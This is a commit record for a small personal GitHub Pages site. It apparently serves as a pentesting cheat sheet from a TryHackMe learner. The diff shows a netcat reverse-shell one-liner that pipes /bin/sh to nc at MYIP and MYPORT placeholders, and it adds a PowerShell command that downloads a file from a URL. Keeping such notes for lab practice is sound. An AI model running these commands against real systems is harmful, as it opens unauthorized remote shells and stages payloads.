

Before and after one commit to gsizer/gsizer.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html
Add Powershell Download

```diff
--- a/index.html
+++ b/index.html
@@ -4,6 +4,6 @@
 </head>
 <body>
 <script src="https://tryhackme.com/badge/244516"></script>
-<p>netcat reverse shell<pre>rm -f /tmp/s; mkfifo /tmp/s; /bin/sh -i 2>&1 0</tmp/s | nc MYIP MYPORT 1>/tmp/s</pre></p>
-</body>
+<p><h3>Netcat Reverse Shell</h3><pre>rm -f /tmp/s; mkfifo /tmp/s; /bin/sh -i 2>&1 0</tmp/s | nc MYIP MYPORT 1>/tmp/s</pre></p>
+<p><h3>Powershell Download</h3><pre>Powershell -c"iwr -outf FILENAME URL"</pre></p></body>
 </html>
```
